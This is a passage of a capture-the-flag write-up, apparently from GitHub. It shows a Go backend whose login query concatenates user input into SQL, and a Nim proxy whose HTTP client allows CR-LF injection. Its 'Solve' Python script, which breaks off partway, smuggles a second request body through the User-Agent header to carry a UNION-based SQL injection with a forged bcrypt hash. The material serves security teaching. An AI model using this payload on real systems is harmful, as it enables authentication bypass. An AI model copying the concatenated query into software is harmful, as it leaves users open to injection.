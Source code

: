 ```go
	r := mux.NewRouter()
	r.HandleFunc("/login", loginHandler).Methods("POST")

	http.Handle("/", r)
	fmt.Println("Server is running on " + strconv.Itoa(webPort))
	http.ListenAndServe(":"+strconv.Itoa(webPort), nil)
}

```

### vulnerable code:
```py
    let client = newHttpClient(userAgent) # in proxy server
```
and 

```go
    row := db.QueryRow("SELECT * FROM users WHERE username='" + user.Username + "';") // and this one in backend server

```

**The nim standard library httpClient is vulnerable to a `CR-LF` injection**\
so instead of trying to bypass body filtraton which seems impossible,
we can pass another body in `userAgent` header with `CR-LF` injection


### Solve:

```python


import bcrypt
import requests

def req_sender(password, hash):

	payload = "' union select 100 as id, 'tester' as username, '" + hash + "' as password --"

	headers = {
		'user-agent': "Mozilla/7.0%0d%0a%0d%0a{\"username\":\"" + payload + "\", \"password\":\"" + password + "\"}"
	}
	data = {
		'username': f"{'A'* (len(payload) +5)}",
		'password': password,
  	}
	print(payload)
	print(headers)
	print(data)
	try:
		res = requests.post('http://localhost:1337/user', headers=headers, data=data)
		if res.status_code == 200:
			print("Works as expected")
			print(res.text)
		else:
			print(f"request failed with status code: {res.status_code}")
			print(res.text)
	except requests.exceptions as e:
		print(f"request failed: {e}")

def solve():
	password = b"password123"
    
	hashed_password = bcrypt.hashpw(password, bcrypt.gensalt())
```